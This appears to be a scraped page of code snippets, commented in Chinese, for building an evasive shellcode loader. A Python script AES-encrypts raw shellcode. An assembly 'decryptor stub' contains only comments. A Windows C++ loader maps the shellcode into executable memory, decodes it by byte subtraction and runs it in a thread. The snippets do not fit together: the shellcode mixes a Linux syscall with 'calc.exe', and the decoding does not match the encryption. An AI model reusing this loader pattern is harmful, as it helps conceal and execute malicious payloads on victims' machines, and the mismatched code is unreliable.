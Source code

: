 ```asm
from Crypto.Cipher import AES
import os

# 原始Shellcode
shellcode = b"\x48\x31\xc0\x50\x48\xb8\x63\x61\x6c\x63\x2e\x65\x78\x65\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05"

# 生成随机AES密钥
key = os.urandom(16)

# 使用AES加密Shellcode
cipher = AES.new(key, AES.MODE_ECB)
encrypted_shellcode = cipher.encrypt(shellcode.ljust(32, b'\x00'))  # 填充到16字节的倍数

print("加密后的Shellcode:", encrypted_shellcode.hex())
print("AES密钥:", key.hex())
```

加密器Stub示例
```asm
section .text
global _start

_start:
    ; AES解密器Stub
    ; 这里假设AES密钥和加密后的Shellcode已经嵌入到代码中
    ; 解密后的Shellcode将被存储在某个内存位置并执行

    ; 示例：执行解密后的Shellcode
    ; 具体的解密过程和调用方式根据实际情况调整
```

shell.cpp
```c
#include <Windows.h>

int main()
{
	const char shellcode[] = "SHELL CODE";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	for (int i = 0; i < sizeof shellcode; i++)
	{
		((char*)shellcode_exec)[i] = (((char*)shellcode_exec)[i]) - 13;
	}
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```
